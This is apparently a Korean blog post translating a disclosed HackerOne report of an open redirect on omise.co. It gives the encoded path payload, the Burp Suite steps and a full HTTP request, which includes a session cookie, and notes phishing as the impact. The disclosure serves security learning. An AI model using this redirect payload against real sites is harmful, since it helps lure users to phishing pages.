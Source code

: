 ```yaml
---
layout: post
title: Open Redirect
categories: PoC
tags: [Bugbounty, OpenRedirect, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : Jishnu Sudhakaran (jishnupunnol)] https://hackerone.com/reports/504751

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 3월 25일 오전 6시 42분에 공개되었습니다. Omise에 리포팅 되었습니다. 취약점의 종류는 Open Redirect이며, 포상금은 $100달러로 한화로 약 11만원 입니다. 해당 취약점은 해당 도메인에서 3.3/10 정도의 심각성을 내포하고 있습니다. ]_
- - -

# 설명
Open Redirect 취약점.

URL : https://www.omise.co////bing.com/?www.omise.co/?category=interview&page=2

파라미터 종류 : URL 재작성

공격 패턴 : %2f%2f%2fr87.com%2f%3fwww.omise.co%2f
- - -
# 공격이 발생되는 과정
1. 다음의 URL을 버프스위트를 이용해 가로챈 뒤 리피터 탭으로 보냅니다 : https://www.omise.co/?category=interview&page=2
1. 다음과 같은 공격 패턴을 이용합니다 : /%2f%2f%2fbing.com%2f%3fwww.omise.co
1. bing.com 으로 리다이렉트 시킵니다.


## Request body와 캡처 이미지는 다음과 같습니다 :
{% highlight html %}
GET /%2f%2f%2fbing.com%2f%3fwww.omise.co/?category=interview&page=2 HTTP/1.1
Host: www.omise.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _omise-website_session=OHdwcEpSZVUvVXRqS3F3bUVyUUhaZ2pVY00wVWJ1c042RWZZNHdOendwUEkzS0dnaTJPb1hub3ZxcGhkUk5FNy96blpiNjJPL0hhMUZBdS9Jb2ZFY25BcWxzcXNjbTAyclJLTlo0VGUvbzBsa085MXhNUG9uZFpzRnBBeEp4a2MtLU9ONHdIWVBZdWZlS3VIVXVYTVNkOVE9PQ%3D%3D--cf8f4d43247d9eb5aa162a3f00fabc02bbda3b34
Upgrade-Insecure-Requests: 1
{% endhighlight %}

![Omise.co_]({{site.baseurl}}/images/Omise.co_.png)
<center>POC 중 하나. 나머지 4개의 첨부 이미지도 같은 형식임.  
[사진 출처 : https://hackerone.com/reports/405342]</center>
- - -
# 영향
공격자는 해당 취약점을 이용하여 사용자를 피싱과 같은 다른 악의적인 웹 사이트로 리다이렉트 시킬 수 있습니다.